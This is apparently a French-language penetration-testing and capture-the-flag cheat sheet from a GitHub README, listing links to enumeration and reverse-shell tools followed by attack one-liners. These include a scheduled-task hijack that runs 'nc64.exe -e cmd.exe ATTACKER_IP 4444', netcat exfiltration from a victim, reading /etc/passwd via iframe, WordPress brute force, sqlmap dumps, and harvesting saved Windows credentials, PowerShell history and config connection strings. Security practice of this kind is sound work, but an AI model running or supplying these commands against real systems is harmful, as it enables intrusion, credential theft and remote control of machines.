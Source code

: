 ```
===========================================

_______________________________ /\ 
\_   ___ \__    ___/\_   _____/ )/______
/    \  \/ |    |    |    __)    /  ___/
\     \____|    |    |     \     \___ \ 
 \______  /|____|    \___  /    /____  >
        \/               \/          \/ 

============================================
```
# Énumeration

linPEAS : https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS <br>
linEnum : https://github.com/rebootuser/LinEnum <br>
winPEAS : https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat (.bat) <br>

# Objectif Reverse shell !

Netcat for windows : https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip <br>
Hacker tools : https://addons.mozilla.org/en-US/firefox/addon/hacktools/ <br>
Reverse Shells : https://www.revshells.com/ <br>
Reverse shell php : https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php <br>

# Utiles

subdomains.txt : https://raw.githubusercontent.com/danTaler/WordLists/master/Subdomain.txt <br>
Bypass authentication : https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass <br>
PAYLOADSALLTHETHINGS : https://github.com/swisskyrepo/PayloadsAllTheThings (reverse shell, etc...) <br>
Binaries exploit : https://gtfobins.github.io/ <br>
PrivEscCheck (windows) : https://github.com/itm4n/PrivescCheck <br>
```
PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
PS C:\> . .\PrivescCheck.ps1
PS C:\> Invoke-PrivescCheck
```
wes.py (aussi pour windows): https://github.com/bitsadmin/wesng/blob/master/wes.py <br>
```
user@kali$ wes.py systeminfo.txt        
```
Windows Local PrivEsc : https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

-------------------------------------------------------------------------------------------------------------------------------------------+
# Basiques !
```
[+] => INFO GATHERING           - sudo -l
[+] => SPAWN SHELL USING PYTHON - python3 -c 'import pty; pty.spawn("/bin/sh")'
[+] => SPAWN SHELL USING BASH   - bash -i
[+] => TRANSFER FILE VIA NETCAT - [victime] nc -nv <ip> 1337 < <file_to_transfer> | [attacker] nc -lnvp 1337 > <file_to_transfer>
```
-------------------------------------------------------------------------------------------------------------------------------------------+
# Linux
```
[CMD](JS)        => <iframe src=file:///etc/passwd></iframe>
[CMD](WordPress) => wpscan => ex (brute force mdp) wpscan --url 10.10.180.74/blog -U admin -P /usr/share/wordlists/rockyou.txt
[CMD](misconfig) => bash -p
[CMD](BINARIES)  => find / -user root -perm -4000 -exec ls -ldb {} \;
[CMD](GOBUSTER)  => gobuster dir -u <url> -w=/usr/share/wordlists/dirb.../<list> -b <status_code_to_exclude>
[CMD](NMAP/SMB)  => nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP  (SAMBA)
                    smbclient //<ip>/anonymous (-U pour un utilisateurs)
                    smbget -R smb://<ip>/anonymous
[CMD](FFUF)      => ffuf -c -w /usr/share/wordlists/subdomains.txt -u http://domain.com/ -H "Host: FUZZ.domain.com" -fc 301
[CMD](list)      => msfvenom -l payloads | grep windows | grep reverse | grep shell  (exemple)
[CMD](decrypt)   => john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=<format>
[CMD](sql)       => sqlmap -r file.txt --dbms=mysql --dump | (après avoir copier une requête Burp dans un fichier txt)
[CMD](ftp)       => wget -m --no-passive ftp://anonymous:anonymous@<IP>  (download tout)
```
<br>
[?] Using "-p" on an SUID file will run it with the permission of the owner. Ex if root own a file and you run it (non-root) using "-p" you will run it with root perm
<br> 
<br>

# Windows

```
[RDP]            => xfreerdp /d:<domain> /u:'<user>' /p:'<password>' /v:<prefix>.<domain> /drive:.,kali-share +clipboard

[CMD](WIN)*PS*   => Invoke-WebRequest -Uri "http://<ip>:<port>/<file>" -Outfile <outfile>
[CMD](WIN)*PS*   => Expand-Archive <file.zip>
[CMD](WIN)*PS*   => type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt (ou %userprofile% avec CMD)
[CMD](WIN)*PS*   => cmdkey /list  #liste les creds sauvegardés
[CMD](WIN)*PS*   => runas /savecred /user:admin cmd.exe  #exécute l'action avec les credentials sauvegardés
[CMD](WIN)*PS*   => schtasks | schtasks /query /tn TASKVULNERABLE /fo list /v   #Planificateur de tâche
                    icacls c:\tasks\schtask.bat #Donne des infos sur les permissions planificateur de tâches
                    echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
                    schtasks /run /tn vulntask #Exécute la tâche direct

[CMD](WIN)*CMD*  => certutil.exe -urlcache -f http://<ip>:<port>/file.exe new_file.exe
```
# Windows : IIS Configuration
![image](https://user-images.githubusercontent.com/97956863/231268829-26242927-066f-47be-a4c4-cab613374d7f.png)

    C:\inetpub\wwwroot\web.config
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

# Windows : PuTTY
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
#Il est important de garder SimonTatham car c'est le créateur de PuTTY ! 
```
-------------------------------------------------------------------------------------------------------------------------------------------+

